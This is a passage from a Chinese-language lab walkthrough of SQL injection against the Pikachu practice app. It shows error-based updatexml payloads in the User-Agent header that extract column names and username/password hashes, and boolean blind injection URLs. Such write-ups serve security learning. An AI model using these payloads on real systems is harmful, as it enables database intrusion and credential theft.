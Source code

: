    ```
   网页显示：XPATH syntax error: ',username,password,level,id,user'
   ```

   ```sql
   User-Agent: hack' or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,31),0x7e),1) or '
   ```

   ```sql
   网页显示：XPATH syntax error: '~id,username,password,level,id,u'
   ```

   ==> 所以可得：数据表列名信息为：`id, username, password, level, user`

   注：实际上通过检查后台数据库信息可得，真实的数据表列名信息为：`id, username, password, level`，so why ？？？

5. 获取数据信息：

   ```sql
   User-Agent: hack' or updatexml(1,(select group_concat(username,' : ', password) from users),1) or '
   ```

   ```
   XPATH syntax error: ',pikachu : 670b14728ad9902aecba3'
   ```

   ```sql
   User-Agent: hack' or updatexml(1,concat(0x7e,substr((select group_concat(username, ' : ', password) from users),1,31),0x7e),1) or '
   ```

   ```
   XPATH syntax error: '~admin : e10adc3949ba59abbe56e05'
   ```

   ==> **But，你会发现！这两条数据特么压根不是同一条！！！**

   > https://blog.csdn.net/elephantxiang/article/details/115771540 作者也写错了！！！！



## 盲注（base on boolian，即基于布尔的盲注）

尽管这关作者提示使用 and 盲注，但是作者并没有给出正确的提示信息，比如说给出一个 username，如果作者给出一个正确的 username，例如 username = 'lili'，那么我们可以使用 and 盲注：

一. 首先判断注入类型，通过错误注入法，闭合符合为单引号 `'`：

```sql
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=lili'--+&submit=%E6%9F%A5%E8%AF%A2
```

二. 使用 and 盲注获取数据库名长度：

```sql
# 只有当 and 后面的 sql 语句也成立时，页面才是正常显示用户查询的信息：
# your uid:7
# your email is: lili@pikachu.com
# 否则输出：您输入的username不存在，请重新输入！
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=lili' and length(database())=7--+&submit=%E6%9F%A5%E8%AF%A2
```
